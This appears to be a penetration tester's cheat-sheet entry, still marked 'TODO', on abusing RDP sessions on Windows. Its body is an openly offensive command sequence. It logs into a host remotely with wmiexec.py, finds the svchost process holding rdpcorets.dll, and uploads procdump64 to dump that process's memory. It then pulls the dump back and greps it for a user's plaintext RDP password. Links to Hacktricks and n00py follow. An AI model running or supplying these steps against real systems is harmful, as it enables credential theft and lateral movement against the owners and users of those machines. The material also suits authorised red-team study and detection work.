 # Unix Shell

Search Tag(s): #lateral-movement #rdp #windows

TODO: Fill in the info

```
$ wmiexec.py <username>:<password>@<IP>

C:\> tasklist.exe /M:rdpcorets.dll

C:\> lput /path/to/local/procdump64.exe

C:\> procdump64.exe -ma <svchost.exe_pid> rdpcreds.dmp

C:\> lget rdpcreds.dmp

C:\> exit
```

```
$ strings -el rdpcreds.dmp | grep <username> -C1
```

---
## References

### Hacktricks

- [Hacktricks: RDP Sessions Abuse](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/rdp-sessions-abuse.html)

### n00py

- [n00py: Dumping Plaintext RDP credentials from `svchost.exe`](https://www.n00py.io/2021/05/dumping-plaintext-rdp-credentials-from-svchost-exe/)